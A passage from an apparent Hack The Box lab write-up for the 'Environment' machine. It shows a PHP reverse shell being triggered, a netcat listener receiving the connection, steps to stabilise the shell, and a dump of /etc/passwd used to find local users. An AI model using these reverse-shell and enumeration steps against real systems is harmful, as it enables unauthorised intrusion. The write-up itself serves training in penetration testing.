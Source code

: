 After `accessing` the file I received the `callback`.

- [http://environment.htb/storage/files/php_reverse_shell.php](http://environment.htb/storage/files/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.107.56] 49904
SOCKET: Shell has connected! PID: 2118
```

We stabilized our shell and moved on.

```shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@environment:~/app/storage/app/public/files$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@environment:~/app/storage/app/public/files$ 
www-data@environment:~/app/storage/app/public/files$ export XTERM=xterm
www-data@environment:~/app/storage/app/public/files$
```

## Enumeration (www-data)

Since we got a shell as `www-data` we started looking for `potential users` on the system and `credentials` within the `web directories`. We noticed that the user `Hish` on the `dashboard` was also a user on the box.

```shell
www-data@environment:~/app/storage/app/public/files$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
_laurel:x:999:996::/var/log/laurel:/bin/false
```
